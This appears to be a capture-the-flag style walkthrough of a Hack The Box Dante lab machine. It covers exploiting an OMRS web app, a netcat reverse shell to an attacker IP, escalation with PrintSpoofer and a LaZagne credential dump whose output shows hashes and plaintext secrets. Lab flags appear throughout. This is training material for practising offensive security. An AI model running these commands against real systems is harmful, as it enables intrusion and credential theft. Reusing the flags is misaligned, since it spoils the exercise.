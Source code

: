 Host [172.16.1.102](http://172.16.1.102):

![[./_resources/HTB_Pro_Lab_Dante.resources/image.34.png]]
In checking the website, it is a marriage application site. In attempting to quickly submit an application after filling it out, I obtained the following results.:
![[./_resources/HTB_Pro_Lab_Dante.resources/image.39.png]]

In attempting to find more about what I may be able to use to login as the admin, I found the following when selecting on the "Admin" option from the homepage which should allow me to attempt a bruteforce attack on the password reset page with random numbers as the phone number or using password lists on the regular admin login screen.
![[./_resources/HTB_Pro_Lab_Dante.resources/image.40.png]]

I went ahead and checked online for this OMRS site. I immediately found an exploit on exploitdb that was a python script. It quickly allowed me to have a user account created as shown below with a set user and password.:
![[./_resources/HTB_Pro_Lab_Dante.resources/image.71.png]]
it also provided the following user:
```
dante-ws03\blake
```

In this case, I was able to execute a reverse shell after finding out that there is a netcat.exe in Blake's directory on the machine in the Desktop folder.:

Attacker machine:
```
proxychains nc -nlvp 555
```

Windows victim machine with the use of the downloaded python script.:
```
proxychains python3 exploit.py -u http://172.16.1.102:80/ -c 'C:\users\blake\Desktop\nc.exe 10.10.16.101 555 -e cmd.exe'
```

Flag:
![[./_resources/HTB_Pro_Lab_Dante.resources/image.72.png]]

```
DANTE{U_M4y_Kiss_Th3_Br1d3}
```

From here, I started to check each folder in Blake's directory and I found an executable called PrintSpoofer64.exe in the Downloads folder. After quickly looking this up, I  found that you can easily escalate privileges to root "NT AUTH" using the following.:
![[./_resources/HTB_Pro_Lab_Dante.resources/image.73.png]]

```
PrintSpoofer64.exe -i -c cmd
```

Root flag:
```
DANTE{D0nt_M3ss_With_MinatoTW}
```

![[./_resources/HTB_Pro_Lab_Dante.resources/image.74.png]]

I found a laz.exe which reminded me of the LaZagne project which gathers up all of the credentials on the Windows system. I ran it and obtained the following.:
```
C:\Users\Administrator\Documents>./laz.exe all
./laz.exe all
'.' is not recognized as an internal or external command,
operable program or batch file.
C:\Users\Administrator\Documents>laz.exe all
laz.exe all
|====================================================================|
|                                                                    |
|                        The LaZagne Project                        |
|                                                                    |
|                          ! BANG BANG !                            |
|                                                                    |
|====================================================================|
[+] System masterkey decrypted for c4d13a5b-2749-4b5a-a7b6-68c0f1a65666
[+] System masterkey decrypted for 7aeff6c8-1ee3-451c-aa30-31cebcf008e9
[+] System masterkey decrypted for 785fade9-4004-4465-83be-f6042d77919f
[+] System masterkey decrypted for 7b4d9074-5f4b-4c0b-9bad-9695241a6b18
[+] System masterkey decrypted for d74bdbac-95f2-484c-af2e-1db10b075f6c
[+] System masterkey decrypted for 124df0f2-d8e3-479c-a889-ff1352b7cc28
[+] System masterkey decrypted for 2c7188da-8048-4047-aa93-57f756a80088
########## User: SYSTEM ##########
------------------- Hashdump passwords -----------------
Administrator:500:aad3b435b51404eeaad3b435b51404ee:03640479a3bd1700fe8c9c5b0db0b354:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:ea1972deca9cad4913c001b9a6c4f998:::
blake:1002:aad3b435b51404eeaad3b435b51404ee:86f16efeb6f8187fa52f3f729896bff7:::
------------------- Lsa_secrets passwords -----------------
_SC_Apache
0000  2C 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00    ,...............
0010  47 00 5F 00 33 00 74 00 74 00 69 00 6E 00 67 00    G._.3.t.t.i.n.g.
0020  5F 00 68 00 31 00 74 00 63 00 68 00 65 00 64 00    _.h.1.t.c.h.e.d.
0030  21 00 5F 00 75 00 73 00 65 00 72 00 00 00 00 00    !._.u.s.e.r.....
NL$KM
0000  40 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00    @...............
0010  DF 56 4B E7 7F FA 5B 0E 58 B6 DD E0 7B BD F4 DF    .VK...[.X...{...
0020  56 0C E4 B4 B7 0B CC 57 EF 64 36 71 AF 36 B7 C6    V......W.d6q.6..
0030  F8 BC 37 9D 00 71 1E A1 80 83 8B 47 F9 6A 93 DC    ..7..q.....G.j..
0040  88 1B 05 18 98 27 B5 53 EA 5E 03 30 C6 FF 13 F3    .....'.S.^.0....
0050  AA E5 F2 C8 64 BA 08 85 A2 A9 DF 62 D3 B3 A4 9B    ....d......b....
DPAPI_SYSTEM
0000  01 00 00 00 8C 31 59 C7 52 F9 A9 AE 2C B3 D1 AD    .....1Y.R...,...
0010  58 9D F0 F6 78 D7 A4 53 66 AB 67 58 90 BD DE 99    X...x..Sf.gX....
0020  9E DE 9B 79 12 B4 09 59 A9 36 AD BB                ...y...Y.6..
L$_SQSA_S-1-5-21-3089243881-3525850343-252262830-1001
0000  18 02 00 00 00 00 00 00 00 00 00 00 00 00 00 00    ................
0010  7B 00 22 00 76 00 65 00 72 00 73 00 69 00 6F 00    {.".v.e.r.s.i.o.
0020  6E 00 22 00 3A 00 31 00 2C 00 22 00 71 00 75 00    n.".:.1.,.".q.u.
0030  65 00 73 00 74 00 69 00 6F 00 6E 00 73 00 22 00    e.s.t.i.o.n.s.".
0040  3A 00 5B 00 7B 00 22 00 71 00 75 00 65 00 73 00    :.[.{.".q.u.e.s.
0050  74 00 69 00 6F 00 6E 00 22 00 3A 00 22 00 57 00    t.i.o.n.".:.".W.
0060  68 00 61 00 74 00 20 00 77 00 61 00 73 00 20 00    h.a.t. .w.a.s. .
0070  79 00 6F 00 75 00 72 00 20 00 63 00 68 00 69 00    y.o.u.r. .c.h.i.
0080  6C 00 64 00 68 00 6F 00 6F 00 64 00 20 00 6E 00    l.d.h.o.o.d. .n.
0090  69 00 63 00 6B 00 6E 00 61 00 6D 00 65 00 3F 00    i.c.k.n.a.m.e.?.
00A0  22 00 2C 00 22 00 61 00 6E 00 73 00 77 00 65 00    ".,.".a.n.s.w.e.
00B0  72 00 22 00 3A 00 22 00 57 00 65 00 6C 00 63 00    r.".:.".W.e.l.c.
00C0  6F 00 6D 00 65 00 31 00 22 00 7D 00 2C 00 7B 00    o.m.e.1.".}.,.{.
00D0  22 00 71 00 75 00 65 00 73 00 74 00 69 00 6F 00    ".q.u.e.s.t.i.o.
00E0  6E 00 22 00 3A 00 22 00 57 00 68 00 61 00 74 00    n.".:.".W.h.a.t.
00F0  19 20 73 00 20 00 74 00 68 00 65 00 20 00 6E 00    . s. .t.h.e. .n.
0100  61 00 6D 00 65 00 20 00 6F 00 66 00 20 00 74 00    a.m.e. .o.f. .t.
0110  68 00 65 00 20 00 63 00 69 00 74 00 79 00 20 00    h.e. .c.i.t.y. .
0120  77 00 68 00 65 00 72 00 65 00 20 00 79 00 6F 00    w.h.e.r.e. .y.o.
0130  75 00 72 00 20 00 70 00 61 00 72 00 65 00 6E 00    u.r. .p.a.r.e.n.
0140  74 00 73 00 20 00 6D 00 65 00 74 00 3F 00 22 00    t.s. .m.e.t.?.".
0150  2C 00 22 00 61 00 6E 00 73 00 77 00 65 00 72 00    ,.".a.n.s.w.e.r.
0160  22 00 3A 00 22 00 57 00 65 00 6C 00 63 00 6F 00    ".:.".W.e.l.c.o.
0170  6D 00 65 00 31 00 22 00 7D 00 2C 00 7B 00 22 00    m.e.1.".}.,.{.".
0180  71 00 75 00 65 00 73 00 74 00 69 00 6F 00 6E 00    q.u.e.s.t.i.o.n.
0190  22 00 3A 00 22 00 57 00 68 00 61 00 74 00 19 20    ".:.".W.h.a.t.. 
01A0  73 00 20 00 74 00 68 00 65 00 20 00 6E 00 61 00    s. .t.h.e. .n.a.
01B0  6D 00 65 00 20 00 6F 00 66 00 20 00 74 00 68 00    m.e. .o.f. .t.h.
01C0  65 00 20 00 66 00 69 00 72 00 73 00 74 00 20 00    e. .f.i.r.s.t. .
01D0  73 00 63 00 68 00 6F 00 6F 00 6C 00 20 00 79 00    s.c.h.o.o.l. .y.
01E0  6F 00 75 00 20 00 61 00 74 00 74 00 65 00 6E 00    o.u. .a.t.t.e.n.
01F0  64 00 65 00 64 00 3F 00 22 00 2C 00 22 00 61 00    d.e.d.?.".,.".a.
0200  6E 00 73 00 77 00 65 00 72 00 22 00 3A 00 22 00    n.s.w.e.r.".:.".
0210  57 00 65 00 6C 00 63 00 6F 00 6D 00 65 00 31 00    W.e.l.c.o.m.e.1.
0220  22 00 7D 00 5D 00 7D 00 00 00 00 00 00 00 00 00    ".}.].}.........
DefaultPassword
0000  2E 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00    ................
0010  47 00 5F 00 33 00 74 00 74 00 69 00 6E 00 67 00    G._.3.t.t.i.n.g.
0020  5F 00 68 00 31 00 74 00 63 00 68 00 65 00 64 00    _.h.1.t.c.h.e.d.
0030  21 00 5F 00 61 00 64 00 6D 00 69 00 6E 00 00 00    !._.a.d.m.i.n...
[+] 0 passwords have been found.
For more information launch it again with the -v option
elapsed time = 21.7190001011
```

I found the following file as well but I'm not sure if it is important yet.:
```
Directory of C:\Users\Administrator\Searches
10/11/2020  06:19 AM    <DIR>          .
10/11/2020  06:19 AM    <DIR>          ..
04/27/2020  04:57 AM              852 winrt--{S-1-5-21-3089243881-3525850343-252262830-500}-.searchconnector-ms
              1 File(s)            852 bytes
              2 Dir(s)  9,017,184,256 bytes free
C:\Users\Administrator\Searches>type winrt--{S-1-5-21-3089243881-3525850343-252262830-500}-.searchconnector-ms
type winrt--{S-1-5-21-3089243881-3525850343-252262830-500}-.searchconnector-ms
<?xml version="1.0" encoding="UTF-8"?>
<searchConnectorDescription xmlns="http://schemas.microsoft.com/windows/2009/searchConnector">
  <description></description>
  <isSearchOnlyItem>true</isSearchOnlyItem>
  <includeInStartMenuScope>true</includeInStartMenuScope>
  <templateInfo>
    <folderType>{982725EE-6F47-479E-B447-812BFA7D2E8F}</folderType>
  </templateInfo>
  <simpleLocation>
    <url>winrt://{S-1-5-21-3089243881-3525850343-252262830-500}/</url>
    <serialized>MBAAAEAFCAAAAAAAADAAAAAAAYUgAAQDAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABAAAAAAAAAAAAAAAAAAAAAJAUAwHoB4UccIoClGEiqOCAsCMw0peAEGgAAAAAcHApBgbAIHA0BgOA8CAvAweAMFAtAQMA0CA1AQLAIDAxAQLAMDAwAAOAkDAyAANAMDA4AAOAEDAtAwMAUDAyAQNAgDA1AAMAMDA0AwMA0CAyAQNAIDAyAgNAIDA4AwMAADAtAQNAADAwAQfA8CAAAAAAAAAAAAAAA</serialized>
  </simpleLocation>
</searchConnectorDescription>
C:\Users\Administrator\Searches>
```
